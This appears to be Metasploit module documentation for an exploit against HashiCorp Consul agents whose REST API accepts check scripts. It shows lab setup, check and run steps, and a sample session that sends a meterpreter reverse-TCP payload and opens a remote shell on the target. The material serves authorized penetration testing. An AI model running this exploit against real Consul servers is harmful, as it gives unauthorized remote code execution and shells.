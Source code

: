 Hashicorp Consul Agent is serving a REST API which can be used to execute scripts on a regular basis.
By default, this endpoint is not protected and anyone can add his own command line.

## Vulnerable application

Grab the Consul prebuilt binary [here](https://www.consul.io/downloads.html) and run the binary in dev mode with check scripts enabled:
```
$ ./consul agent -dev -enable-script-checks
```

This is sufficient to test the module.

## Verification Steps


Confirm that check functionality works:
- [ ] Start Consul Agent without the check scripts enabled: `./consul agent -dev`
- [ ] Start `msfconsole`
- [ ] `use exploit/multi/misc/consul_agent`
- [ ] Set the `RHOST`.
- [ ] Confirm the target is *not* vulnerable: `check`
- [ ] Observe that the target is *not* vulnerable: `The target is not exploitable`
- [ ] Restart Consul Agent with the check scripts enabled: `./consul agent -dev -enable-script-checks`
- [ ] Confirm the target is vulnerable: `check`
- [ ] Confirm that the target is vulnerable: `The target is vulnerable.`

Confirm that command execution functionality works:
- [ ] Set a payload: `set payload linux/x86/meterpreter/reverse_tcp`
- [ ] Set `LHOST` and `LPORT`
- [ ] Run the exploit: `run`
- [ ] Confirm you have now a meterpreter session

## Options

**PATH**

The path to the Consult REST API. By default, the path is `/`.

**ACL_TOKEN**

If the API is protected by a token and you have this token, you can set its value to make the REST API calls work.


## Scenarios

### Meterpreter reverse tcp

In this example, the Consul instance is protected by an *ACL token*:
```
msf5 > use exploit/multi/misc/consul_agent 
msf5 exploit(multi/misc/consul_agent) > set RHOSTS 192.168.56.101
RHOSTS => 192.168.56.101
msf5 exploit(multi/misc/consul_agent) > set LHOST 192.168.56.1
LHOST => 192.168.56.1
msf5 exploit(multi/misc/consul_agent) > set LPORT 12345
LPORT => 12345
msf5 exploit(multi/misc/consul_agent) > set ACL_TOKEN FBAF54CC-E03D-4763-9F19-376114D3857B
ACL_TOKEN => FBAF54CC-E03D-4763-9F19-376114D3857B
msf5 exploit(multi/misc/consul_agent) > check 
[+] 192.168.56.101:8500 The target is vulnerable.
msf5 exploit(multi/misc/consul_agent) > run

[*] Started reverse TCP handler on 192.168.56.1:12345 
[+] The shell is on the way!
[*] Command Stager progress - 100.00% done (763/763 bytes)
[*] Sending stage (861480 bytes) to 192.168.56.101

meterpreter > sysinfo 
Computer     : 192.168.56.101
OS           : Debian 9.4 (Linux 4.9.0-6-amd64)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
```
